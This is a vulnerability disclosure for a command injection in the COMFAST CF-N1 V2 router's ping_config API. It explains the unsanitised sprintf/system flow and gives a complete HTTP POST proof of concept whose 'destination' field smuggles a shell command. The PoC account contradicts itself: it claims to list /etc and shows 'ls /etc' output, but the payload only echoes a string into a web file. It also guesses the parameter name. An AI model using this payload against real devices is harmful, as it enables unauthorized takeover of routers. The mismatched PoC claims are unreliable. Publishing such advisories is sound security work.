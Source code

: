# COMFAST CF-N1 V2 V2.6.0 Command Injection in `ping_config`

PS：Using tools like qemu to set up the environment may be difficult; it is recommended to purchase a physical device.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) in the `ping_config` API (`/usr/bin/webmgnt`, function `sub_441EC4`). Attackers can inject arbitrary commands via a user-controlled parameter involved in ping configuration, enabling unauthorized execution of system commands, sensitive information access, or full device compromise.

![PoC 2 Result: Root Directory Listing](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: http://www.comfast.com.cn/index.php?m=content&c=index&a=show&catid=31&id=772

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=ping_config`

*   **Vulnerability**: Command Injection

*   **CVE ID**: Pending

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability originates in the `sub_441EC4` function handling the `ping_config` section. Analysis of the disassembly shows that a user-controlled parameter is unsanitized and directly used in a command construction process.

Key code flow:



1.  The function parses user input via `blobmsg_parse_0`, extracting configuration parameters (including the vulnerable parameter).

2.  The extracted parameter (`v4`) is inserted into a command string using `sprintf_0(v8, &aBinPing4C4W2ST..., v4)`, where `aBinPing4C4W2ST` likely represents a ping command template (e.g., `ping -c 4 %s`).

3.  The constructed command is executed via `system_0(v8)`, with no input sanitization to block malicious command separators.

This allows attackers to inject arbitrary commands by adding delimiters (e.g., `&&`, `;`, `|`) to the vulnerable parameter, as the input is directly concatenated into the executed system command.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: List `/etc` Directory Contents



```
POST /cgi-bin/mbox-config?method=SET&section=ping_config HTTP/1.1
Host: cflogin.cn
Content-Length: 76
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"destination": "127.0.0.1\"; echo  ping config >  /www-comfast/test.txt #"}
```


*   **Assumptions**: The vulnerable parameter is named `destination` (adjust if the actual parameter name differs based on further analysis).

*   **Steps**:

1.  Send the POST request using `curl`, Burp Suite, or similar tools.

2.  Access `http://cflogin.cn/test.txt` to view the contents of the `/etc` directory.

*   **Result**: The output of `ls /etc` is written to `/www-comfast/test.txt`, confirming arbitrary command execution.
*   
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

